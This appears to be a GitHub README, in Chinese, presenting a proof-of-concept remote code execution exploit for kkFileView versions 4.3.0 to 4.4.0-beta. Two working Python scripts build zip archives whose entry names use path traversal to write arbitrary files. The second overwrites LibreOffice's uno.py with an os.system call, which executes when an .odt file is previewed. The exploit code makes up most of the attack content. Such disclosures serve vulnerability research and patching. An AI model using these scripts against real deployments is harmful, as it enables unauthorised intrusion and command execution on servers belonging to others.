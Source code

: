 # kkFileView-v4.3.0-RCE-POC

## v4.3.0~v4.4.0-beta

https://github.com/kekingcn/kkFileView/releases/tag/v4.3.0

此版本为官方源代码最新版

### 环境部署

本地源码启动或者docker部署

![img](images/(null)-20240415195822360.(null))

### 任意文件上传

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ueeeeee'
        binary2 = b'hacked_by_1ue'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../tmp/flag", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

制作恶意`hack.zip`，注意里面必须有一个正常文件，例如`test`，便于创建`hack.zip_`缓存文件

![img](images/(null)-20240415195822385-3182302.(null))

上传文件并预览

![img](images/(null)-20240415195822385.(null))

![img](images/(null)-20240415195822430.(null))

发现成功穿越

### RCE

可以任意文件上传，并且可以追加文件内容

经过我研究发现，目标在使用odt转pdf时会调用系统的Libreoffic，而此进程会调用库中的uno.py文件，因此可以覆盖该py文件的内容

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ue'
        binary2 = b'import os\r\nos.system(\'touch /tmp/hack_by_1ue\')'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

制作恶意的zip包

暂时无法在飞书文档外展示此内容

上传并预览

![img](images/(null)-20240415195822638.(null))

再随便上传一个odt文件，另其发起libreoffice任务

暂时无法在飞书文档外展示此内容

上传并预览

![img](images/(null)-20240415195822411.(null))

可以看到命令成功被执行

![img](images/(null)-20240415195901951.(null))

uno.py中也确实被写入了内容

![img](images/(null)-20240415195822672.(null))
